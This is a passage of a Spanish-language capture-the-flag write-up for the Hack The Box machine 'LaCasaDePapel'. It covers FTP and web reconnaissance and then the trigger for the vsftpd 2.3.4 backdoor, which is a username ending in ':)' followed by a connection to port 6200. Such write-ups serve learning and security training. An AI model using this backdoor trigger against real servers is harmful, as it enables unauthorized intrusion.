 
Ya aqui podemos ver en el commonName del certificado ssl `lacasadepapel.htb` que añadimos al `/etc/hosts`

### Coneccion Anonoymous con ftp {-}

```bash
ftp 10.10.10.131

Name: anonymous
Password: 

530 Login incorrect.
```

No nos podemos conectar con el usuario anonymous, Pero podemos ver que el servicio es un vsFTPd 2.3.4 que ya sabemos que existe un exploit

```bash
searchsploit vsftpd 2.3.4

#Output
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)
```

### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.131
```

No vemos nada interesante aqui.

#### Checkear la web {-}

Si entramos en la url `http://10.10.10.131`, El wappalizer no nos muestra nada. Si entramos con el dominio `http://lacasadepapel.htb` vemos lo mismo.
Intentamos por **https** `https://lacasadepapel.htb` y aqui la cosa cambia. Tenemos un mensaje que dice que tenemos que proporcionar un certificado cliente
para ver mas cosas. Pero aqui necessitamos tener mas informaciones.
## Vulnerability Assessment {-}

### vsftpd 2.3.4 {-}

Como ya sabemos que esta version es vulnerable, buscando por internet o analyzando el exploit de Metasploit vemos que la vulnerabilidad
reside en poner una sonrisita `:)` al final del nombre de usuario y esto hace que se habre el puerto 6200 de la maquina.

```bash
nc 10.10.10.131 6200

#Output
Ncat: Connection refused.

telnet 10.10.10.131 21
USER s4vitar:)
PASS setenso
```
